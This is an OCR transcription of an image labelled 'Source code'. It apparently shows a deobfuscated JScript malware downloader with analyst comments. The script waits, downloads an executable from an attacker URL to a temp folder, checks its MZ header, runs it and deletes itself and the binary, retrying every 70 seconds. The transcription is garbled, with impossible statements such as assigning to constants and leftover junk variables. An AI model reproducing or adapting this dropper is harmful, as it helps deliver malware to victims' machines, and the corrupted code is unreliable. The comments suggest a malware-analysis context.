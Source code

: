 ```

while (true)  {
    1 = 1 + 1;
    if (1 == 200000000)  {
        while (true)  {
            try {
            #sets up object to download malware file
                ActiveXObject(Msxml2.ServerXMLHTTP)[setOption](3, MSXML);
                ActiveXObject(Msxml2.ServerXMLHTTP)[open](GET, attacker_url + &123456.exe, false);
                ActiveXObject(Msxml2.ServerXMLHTTP)[send]();
                if (obj_time[status] == (200))  {
                    if (ActiveXObject(Scripting.FileSystemObject)[FileExists](windows/temp*/23482819.exe))  ActiveXObject(Scripting.FileSystemObject)[DeleteFile](*windows/temp*/23482819.exe);
                    ActiveXObject(ADODB.Stream)[Open]();
                    obj_informationsensing[Type] = 1;
                    ActiveXObject(ADODB.Stream)[Write](ActiveXObject(Msxml2.ServerXMLHTTP)[responseBody]);
                    obj_informationsensing[Position] = 0;
                    ActiveXObject(ADODB.Stream)[SaveToFile](*windows/temp*/23482819.exe);
                    ActiveXObject(ADODB.Stream)[Close]();
                    filets = ActiveXObject(Scripting.FileSystemObject)[GetFile](*windows/temp*/23482819.exe)[OpenAsTextStream](1);
                    if (ActiveXObject(Scripting.FileSystemObject)[FileExists](*windows/temp*/23482819.exe) && filets[ReadLine]()[substring](0, 2) == MZ)  {
                        #above checks that downloaded file is a binary
                        false = true;
                        #execute malicious binary
                        ActiveXObject(Shell.Application)[ShellExecute](*windows/temp*/23482819.exe, '', '', open, 1);
                        #deletes malicious javascript file
                        if (ActiveXObject(Scripting.FileSystemObject)[FileExists](WScript[ScriptFullName])) ActiveXObject(Scripting.FileSystemObject)[DeleteFile](WScript[ScriptFullName]);
                        WScript[Sleep](4000);
                        #deletes malicious binary file
                        if (ActiveXObject(Scripting.FileSystemObject)[FileExists](*windows/temp*/23482819.exe)) ActiveXObject(Scripting.FileSystemObject)[DeleteFile](*windows/temp*/23482819.exe);
                    }

                    null[Close]();
                }

            } catch(e) {}

            if (obj_including == true)  {
                break;
            }

            WScript[Sleep](70000);
        }

        break;
    }

};
obj_doubled = 204;
obj_cameras5 = 0.328;
obj_data = 0.231;
obj_data = 0.559;
obj_that1 = 87;
obj_hundreds9 = 0.797;
obj_months4 = 0.66;
obj_predictive4 = 522;
attacker_url = 426;
```